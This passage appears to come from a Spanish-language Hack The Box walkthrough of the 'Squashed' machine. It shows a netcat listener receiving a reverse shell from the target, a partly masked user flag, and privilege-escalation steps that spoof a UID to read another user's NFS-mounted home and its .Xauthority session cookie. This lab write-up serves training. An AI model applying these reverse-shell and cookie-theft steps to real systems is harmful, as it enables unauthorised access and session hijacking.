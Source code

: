 Ahora que tenemos RCE procedemos a ejecutar oneliner y ponernos en escucha en el puerto 443 en nuestro equipo atacante

<img src="/assets/HTB/Squashed/shell.png">

```bash
❯ sudo nc -nlvp 443
[sudo] password for yorch: 
listening on [any] 443 ...
connect to [10.10.14.40] from (UNKNOWN) [10.10.11.119] 60162
bash: cannot set terminal process group (1058): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ whoami
whoami
alex
```

En el directorio personal de `alex` encontramos la flag de usuario de bajos privilegios

```bash
alex@squashed:/home/alex$ cat user.txt 
4c40083f03a501580***************
```

### Escalada Privilegios

* * *

En el directorio del usuario `ross` nos llama la atención un archivo `.Xauthority`. Buscamos de qué se trata y vemos que el archivo .Xauthority(no .xAuthority) se puede encontrar en el directorio de inicio de cada usuario y se utiliza para almacenar credenciales en las cookies utilizadas xauthpara la autenticación de las sesiones X. Buscamos recursos en [hackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11). No tenemos acceso a este archivo directo desde la máquina víctima pero sí podemos acceder a él en la montura creada anteriormente `/mnt/ross` y subirlo al directorio personal de `alex` dónde sí podemos gestionarlo al ser propietarios del directorio `home` donde reside. Modificamos uid de usuario `pepe` a 1001 y así poder acceder a la montura `/mnt/ross`

```bash
❯ usermod -u 1001 pepe
❯ su pepe
$ bash
┌─[pepe@parrot]─[/mnt]
└──╼ $cd ross
┌─[pepe@parrot]─[/mnt/ross]
└──╼ $ls -la
total 64
drwxr-xr-x 14 pepe scanner 4096 dic  7 15:54 .
drwxr-xr-x  1 root root      14 dic  7 16:20 ..
lrwxrwxrwx  1 root root       9 oct 20 15:24 .bash_history -> /dev/null
drwx------ 11 pepe scanner 4096 oct 21 16:57 .cache
drwx------ 12 pepe scanner 4096 oct 21 16:57 .config
drwxr-xr-x  2 pepe scanner 4096 oct 21 16:57 Desktop
drwxr-xr-x  2 pepe scanner 4096 oct 21 16:57 Documents
drwxr-xr-x  2 pepe scanner 4096 oct 21 16:57 Downloads
drwx------  3 pepe scanner 4096 oct 21 16:57 .gnupg
drwx------  3 pepe scanner 4096 oct 21 16:57 .local
drwxr-xr-x  2 pepe scanner 4096 oct 21 16:57 Music
drwxr-xr-x  2 pepe scanner 4096 oct 21 16:57 Pictures
drwxr-xr-x  2 pepe scanner 4096 oct 21 16:57 Public
drwxr-xr-x  2 pepe scanner 4096 oct 21 16:57 Templates
drwxr-xr-x  2 pepe scanner 4096 oct 21 16:57 Videos
lrwxrwxrwx  1 root root       9 oct 21 15:07 .viminfo -> /dev/null
-rw-------  1 pepe scanner   57 dic  7 15:54 .Xauthority
-rw-------  1 pepe scanner 2475 dic  7 15:54 .xsession-errors
```
